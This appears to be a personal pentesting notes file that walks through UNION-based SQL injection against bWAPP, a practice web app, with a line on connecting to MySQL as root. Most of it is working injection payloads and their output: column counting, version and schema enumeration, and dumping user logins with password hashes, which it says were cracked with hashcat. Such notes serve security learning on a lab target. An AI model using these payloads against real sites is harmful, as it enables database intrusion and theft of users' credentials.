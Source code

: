 # default credentials connection:

mysql -u root -h ip 

# SQL injectoin

All examples are based on bWAPP (free pentesting practice tool) examples.

## UNION based sql injection

Test for SQLi vulnerability: '

errror says it's mySQL database

from PayloadAllThings

### MYSQL Comment
-- - Note the space after the double dash
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MYSQL version 3.23.02

-- - to emphasize space

1. Get number of columns

```
1' order by 1; -- -- ok
1' order by 2; -- -- ok
...
1' order by 7; -- -- ok
1' order by 8; -- -- error -> 7 columns available

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

#using NULL is benficial if it is not certain if data types in columns match

```
Other faster methods (if error messages are enabled):

```
' UNION SELECT 1,2,3,4,5,6,7; -- --	True

1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100; -- --

```
* Note: for oracle add FROM DUAL like so:

```
' UNION SELECT NULL FROM DUAL--
```

2. identify vulnerable columns

```
-' union all select 1,2,3,4,5,6,7; -- --

Title 	Release 	Character 	Genre 	IMDb
2 	3 	5 	4 	Link

#columns 2,3,4,5 are vulnerable
```

Get Database version:

```
-' union all select 1,@@version,3,4,5,6,7; -- -

#5.0.96-0ubuntu3 > 5 -> continue with table name enumeration

#for database name

-' union all select 1,database(),3,4,5,6,7; -- -

#we get bWAPP

#time for table name

-' union all select 1,group_concat(0x7c,table_name,0x7C),3,4,5,6,7 from information_schema.tables where table_schema=database(); -- -

#output: blog,heroes,movies,users,visitors

#get column names from users table

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_schema=database(); -- -

#output for column names: id,owner,entry,date,id,login,password,secret,id,title,release_year,genre,main_character,imdb,tickets_stock,id,login,password,email,secret,activation_code,activated,reset_code,admin,id,ip_address,user_agent,date

#columns of particular table 
#encode table name "users" as decimal using: http://www.unit-conversion.info/texttools/ascii/

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115); -- -

#output of columns in "users": id,login,password,email,secret,activation_code,activated,reset_code,admin,uid,name,pass,mail,theme,signature,signature_format,created,access,login,status,timezone,language,picture,init,data

#lets get login and password 

-' union all select 1,group_concat(login,0x7C,password,0x7C,admin),3,4,5,6,7 from users; -- -

#output.
#A.I.M.|6885858486f31043e5839c735d99457f045affd0|1,bee|6885858486f31043e5839c735d99457f045affd0|1,ok|#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb|0
#obviously column with 1 indicates admin
#cracking with hashcat delivers:
#6885858486f31043e5839c735d99457f045affd0:bug
#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb:ok


```



















